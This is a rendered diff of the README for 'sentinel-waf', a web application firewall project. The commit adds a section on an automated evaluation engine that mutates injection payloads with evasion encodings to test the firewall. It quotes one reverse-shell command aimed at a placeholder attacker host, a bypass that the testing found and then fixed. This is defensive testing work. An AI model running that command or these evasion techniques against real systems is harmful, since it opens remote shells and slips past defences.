

Before and after one commit to Ashel7577/sentinel-waf, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 89% size. Rendered like a GitHub page; pictures changed too: docs/dashboard.png; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -51,3 +51,22 @@ The analyst turns that evidence into an incident report: at `/report` and per in
 ![Incident report](docs/incident-report.png)
 
 **Live demo:** `bash scripts/demo.sh` builds everything, sends real benign traffic and 11 attacks through the proxy, verifies the evidence and writes the report. See [docs/DEMO.md](docs/DEMO.md) for the 10-minute walkthrough.
+
+## Autonomous evaluation engine
+
+[`sentinel-autoeval`](cmd/sentinel-autoeval) attacks the WAF on its own and decides what to try next from the WAF's own responses. It works the way published WAF testers do (GoTestWAF's placement-by-encoding matrix, WAF-A-MoLE / AdvSQLi mutation search):
+
+1. **Seeds**: 16 attacks across SQL injection, XSS, command injection and path traversal.
+2. **Placements**: each seed goes into 11 positions. Five are classic: query, form, JSON, header, cookie. Six are structural (parser-differential).
+3. **Adaptive search**: every attack the WAF blocks is kept and mutated with 10 evasion transformations (encodings, case, SQL comments, MySQL versioned comments, full-width Unicode, ...), generation after generation, until nothing caught is left to mutate.
+4. **Backend oracle**: every request is also sent to a demo app that echoes what it parsed. A block only counts against an attack that actually reached an application parameter, and a "bypass" means the payload really got through.
+5. **Auto-tuning**: detection and false positives are measured at paranoia levels 1-4, and the best point within a 0.5% false-positive budget is recommended.
+6. **Evidence and report**: blocked attacks and any bypass go into the SHA-256 hash chain. The report renders to a PDF with screenshots and keeps a run history: the tuning loop.
+
+**It found a real gap.** The first run against the v0.2 rules found 12 confirmed bypasses: reverse shells written as `nc attacker 4444 -e /bin/sh` (host and port before `-e`), plus case-swapped and comment-prefixed variants. Rule 3004 was rewritten from those findings and the four shapes were added to the regression corpus. The next run found nothing:
+
+| Run | Attacks | Reached the app | Detection | Bypasses | False positives |
+|---|---|---|---|---|---|
+| 1 — rules at `ac9c05c` | 3,817 | 364 | 96.7% | 12 | 0% |
+| 2 — after the fix | 3,817 | 364 | **100%** | **0** | 0% |
+
```
Also changed, not shown: other parts of README.md (+11 -0 lines), CHANGELOG.md (+9 -0 lines), docs/autoeval-report.png (added), 2 other files.
